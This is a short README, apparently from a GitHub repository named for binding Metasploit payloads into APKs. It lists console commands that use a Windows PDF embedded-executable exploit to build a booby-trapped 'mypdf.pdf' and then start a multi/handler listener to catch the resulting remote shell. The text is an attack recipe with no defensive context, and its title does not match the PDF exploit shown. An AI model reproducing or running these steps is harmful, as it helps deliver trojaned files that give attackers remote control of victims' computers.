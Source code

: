 # Metasploit-Payload-apk-binder-
use exploit/windows/fileformat/adobe_pdf_embedded_exe_nojs
 set lhost 
 set lport 4040
 set filename mypdf.pdf 
 exploit 
 mv -v .......... /sdcard 
 msfconsole  
 use exploit/multi/handler 
 set lhost  
 set lport  
 exploit
